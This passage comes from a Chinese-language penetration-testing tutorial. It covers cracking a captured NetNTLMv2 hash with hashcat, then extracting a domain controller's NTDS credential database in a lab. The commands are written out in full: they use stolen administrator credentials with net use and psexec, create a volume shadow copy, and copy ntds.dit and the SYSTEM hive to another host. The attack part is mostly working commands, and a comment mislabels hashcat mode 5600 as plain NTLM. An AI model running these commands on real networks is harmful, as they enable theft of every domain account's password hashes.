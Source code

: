 ![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmkBhmuR197KcVXaGvZDVPgtynRia8ejKMaB4hDNuhfLZ1xibsKUTQd3Ng/640?wx_fmt=png)  

**2.hashcat 破解**

```
hashcat -m 5600 hash.txt -a 0 pass.txt --force
#5600>NTLM加密协议
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvm4muYdcgia3giczTCrr7icVy29lconU9lo3VpO9czbSAdfAA383KCYpIMw/640?wx_fmt=png)

**八、提取域控 NTDS hash 文件**
=======================

拿到域控账号后，由于各种原因没法直接登录域控。此时通过 webshell 来执行命令，在普通域设备上获取域控的 ntds  hash 核心用户数据。实验环境及实验条件：  

1\. 已得到域管理员账号密码  
2.win7 充当被拿了 shell 的域内普通机器

**实验步骤**
--------

**1\. 和域控建立空链接**

`#与域控建立空连接``net use \\192.168.1.11\ipc$ "123456" /user:"safe-duck\administrator"`

```
psexec \\\\192.168.1.11 -u "safe-duck\\administrator"  -p "123456"  -h cmd /c "vssadmin list shadows >> \\\\192.168.1.201\\c$\\test\\out.txt"
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvm8pQibkXDOAZ9WYBljDh95xpKsoib1XicnibjwkvMic8paLIe39jBIu6ib5YA/640?wx_fmt=png)  

```
当前没有卷影副本，则需要手工创建。
```

**3\. 手工创建卷影副本**  

```
psexec \\\\192.168.1.11 -u safe-duck\\administrator  -p "123456" -h cmd /c "vssadmin create shadow /for=c:  >> \\\\192.168.1.201\\c$\\test\\outs.txt"
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmVTe997ibytBJd2wicDjbJLowickGQ2p3giaqO7fWClvXIaZlxsp21aLFlw/640?wx_fmt=png)  

**4\. 复制卷影副本到本地**

①将 ntds 文件拷贝到本地服务器

```
psexec \\\\192.168.1.11 -u "safe-duck\\administrator" -p "123456" -h cmd /c "copy \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\windows\\ntds\\ntds.dit \\\\192.168.1.201\\c$\\test\\"
```

②将 system 文件拷贝到本地服务器

```
psexec \\\\192.168.1.11 -u "safe-duck\\administrator" -p "123456" -h cmd /c "copy \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\windows\\system32\\config\\system \\\\192.168.1.201\\c$\\test\\"
```
